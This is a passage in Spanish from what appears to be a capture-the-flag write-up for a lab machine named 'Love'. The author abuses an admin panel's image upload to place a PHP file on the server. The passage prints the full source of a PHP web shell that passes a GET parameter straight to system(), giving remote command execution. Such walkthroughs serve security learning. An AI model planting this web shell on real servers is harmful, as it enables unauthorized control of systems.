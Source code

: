 Estamos dentro del panel, ahora toca ganar acceso a la maquina:

Primero de todo pruebo si me deja subir archivos .php en algun sitio y encuentro que en las imágenes, después de unos cuantos intentos no puedo otorgarme una rev.shell, así que pruebo una webshell:

```bash
❯ cat webshell.php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```

![/assets/images/Love/Untitled%206.png](/assets/images/Love/Untitled%206.png)
